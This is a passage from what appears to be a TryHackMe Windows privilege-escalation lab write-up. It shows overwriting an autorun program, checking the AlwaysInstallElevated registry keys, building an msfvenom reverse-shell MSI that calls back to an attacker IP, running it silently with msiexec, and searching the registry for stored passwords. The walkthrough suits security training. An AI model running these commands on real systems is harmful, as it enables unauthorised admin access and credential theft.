 We can overwrite this program by doing this (then we have to restart the machine):

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### AlwaysInstallElevated 

MSI files are package files used to install applications.

They can be run with elevated (admin) privileges if the `AlwaysInstallElevated` value is set to 1 in:
- `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` (**HKCU** => **C**urrent **U**ser)
- `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` (**HKLM** => **L**ocal **M**achine)

We can check these permissions by doing these commands:

```cmd
C:\PrivEsc>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\PrivEsc>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

This time, we have to generate a reverse shell with the msi format:

```console
root@kali:~/thm/windows10privesc# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.35.147 LPORT=1234 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Then we can execute this MSI file:

```cmd
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

___

## Passwords

### Registry 

Looking for or keys and values that contain "password":

```cmd
C:\PrivEsc> reg query HKLM /f password /t REG_SZ /s
C:\PrivEsc> reg query HKCU /f password /t REG_SZ /s
```
